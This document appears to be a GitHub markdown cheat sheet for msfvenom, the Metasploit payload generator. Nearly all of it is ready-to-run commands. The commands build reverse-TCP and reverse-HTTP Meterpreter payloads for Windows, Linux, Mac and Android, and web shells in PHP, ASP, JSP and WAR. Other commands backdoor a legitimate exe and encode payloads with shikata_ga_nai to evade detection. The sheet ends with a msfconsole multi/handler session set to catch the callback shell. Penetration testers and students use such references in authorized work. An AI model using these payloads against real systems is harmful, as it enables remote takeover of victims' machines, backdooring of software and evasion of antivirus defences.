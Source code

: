 # MSFVenom

MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

## Creting Binaries

Creates a simple TCP Payload for Windows

    msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe

Creates a simple HTTP Payload for Windows

    msfvenom -p windows/meterpreter/reverse_http LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe

Creates a simple TCP Shell for Linux

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f elf > example.elf

Creates a simple TCP Shell for Mac

    msfvenom -p osx/x86/shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f macho > example.macho

Creates a simple TCP Payload for Android

    msfvenom -p android/meterpreter/reverse/tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} R > example.apk	

## Web Payloads

Creates a Simple TCP Shell for PHP

    msfvenom -p php/meterpreter_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.php

Creates a Simple TCP Shell for ASP

    msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f asp > example.asp

Creates a Simple TCP Shell for Javascript

    msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.jsp	

Creates a Simple TCP Shell for WAR

    msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war	


## Windows Payloads

Lists all avalaible encoders

    msfvenom -l encoders	

Binds an exe with a Payload (Backdoors an exe)

    msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe

Creates a simple TCP payload with shikata_ga_nai encoder

    msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe

Binds an exe with a Payload and encodes it

    msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe

## Getting a Metepreter Shell
```
omar@ares:~$ sudo msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
